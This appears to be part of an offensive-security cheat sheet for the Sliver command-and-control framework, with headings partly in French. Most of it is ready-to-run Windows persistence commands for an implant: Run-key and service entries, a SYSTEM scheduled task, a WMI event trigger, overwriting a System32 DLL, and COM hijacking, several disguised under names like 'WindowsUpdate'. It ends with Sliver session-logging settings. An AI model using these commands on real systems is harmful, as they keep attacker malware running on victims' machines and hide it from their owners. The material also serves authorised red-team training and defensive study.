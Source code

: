 ## 🔄 Persistence Mechanisms

### Registry persistence
```bash
# Run key persistence
shell reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Update" /t REG_SZ /d "C:\Windows\Temp\implant.exe"

# Service persistence
shell sc create "WindowsUpdate" binpath="C:\Windows\Temp\implant.exe" start=auto
shell sc start "WindowsUpdate"
```

### Scheduled tasks
```bash
# Scheduled task persistence
shell schtasks /create /tn "System Update" /tr "C:\Windows\Temp\implant.exe" /sc daily /st 09:00 /ru SYSTEM

# WMI event subscription
shell powershell -c "Register-WmiEvent -Query 'SELECT * FROM Win32_VolumeChangeEvent' -Action {Start-Process 'C:\Windows\Temp\implant.exe'}"
```

### Advanced persistence
```bash
# DLL hijacking persistence
upload implant.dll C:\Windows\System32\legitimate.dll

# COM hijacking
shell reg add "HKCU\Software\Classes\CLSID\{GUID}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\implant.dll"
```

## 📊 Logging et Monitoring

### Session logging
```bash
# Activer logging complet
settings logs.level DEBUG

# Log file location
settings logs.file /var/log/sliver.log

# Session recording
record start
# ... activités ...
record stop
```
